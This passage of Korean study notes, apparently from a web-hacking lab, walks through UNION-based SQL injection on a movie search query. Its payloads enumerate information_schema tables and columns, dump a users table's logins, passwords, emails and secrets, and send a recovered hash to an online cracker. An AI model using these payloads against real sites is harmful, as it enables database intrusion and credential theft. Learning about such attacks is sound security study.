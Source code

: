 select * from movies where title = '%**man' UNION select 1,2,3,4,5,6,7 --** %'

화면 출력을 위해서는 쿼리 실행 결과에서 2, 3, 4, 5번째 컬럼의 정보만 사용

<br>

4. MySQL의 시스템 테이블을 이용해서 사용자 정의 테이블의 정보(이름)을 조회select * from movies where title = '%man' UNION select 1,table_schema,table_name,4,5,6,7 from information_schema.tables -- %'→ https://dev.mysql.com/doc/refman/8.0/en/tables-table.html 참조

5. 테이블 이름이 users인 테이블이 가지고 있는 컬럼 정보를 조회select * from movies where title = '%man' UNION select 1,table_name,column_name,4,5,6,7 from information_schema.columns where table_name = 'users' -- %'→ https://dev.mysql.com/doc/refman/8.0/en/columns-table.html
6. users 테이블 id, login, password, email, secret 컬럼의 정보를 조회select * from movies where title = '%man' UNION select 1,id,login,password,concat(email, " : ", secret),6,7 from users -- %'
7.  패스워드 정보가 안전하게 저장되어 있는지 확인6885858486f31043e5839c735d99457f045affd0https://crackstation.net/



---

**책**

웹 해킹&보안 완벽 가이드 

브라우저 해킹 vs 보안

---